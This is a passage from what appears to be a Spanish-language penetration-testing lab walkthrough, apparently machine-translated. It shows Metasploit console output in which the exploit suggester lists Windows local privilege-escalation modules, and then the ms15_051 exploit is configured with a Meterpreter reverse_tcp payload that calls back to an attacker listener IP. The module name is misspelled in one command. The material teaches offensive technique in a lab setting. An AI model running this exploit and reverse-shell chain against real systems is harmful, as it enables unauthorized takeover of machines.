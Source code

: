 ```

msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1

SESSION => 1

msf6 post(multi/recon/local_exploit_suggester) > run

[*] 10.10.10.15 - Collecting local exploits for x86/windows...
[*] 10.10.10.15 - 34 exploit checks are being tried...
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.15 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms14_070_tcpip_ioctl: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.15 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.15 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
[*] Post module execution completed
msf6 post(multi/recon/local_exploit_suggester) >

```

Ejecutar el módulo de reconocimiento nos presenta una multitud de opciones. Al pasar por cada uno separado, aterrizamos en el`ms15_051_client_copy_image`Entrada, que demuestra tener éxito. Esta exploit nos aterriza directamente dentro de un caparazón de raíz, lo que nos da un control total sobre el sistema objetivo.

### **MSF - Escalación de privilegios**

Meterpréter

```
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms15_051_client_copy_images

[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp

msf6 exploit(windows/local/ms15_051_client_copy_image) > show options

Module options (exploit/windows/local/ms15_051_client_copy_image):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.

Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     46.101.239.181   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Windows x86

msf6 exploit(windows/local/ms15_051_client_copy_image) > set session 1

```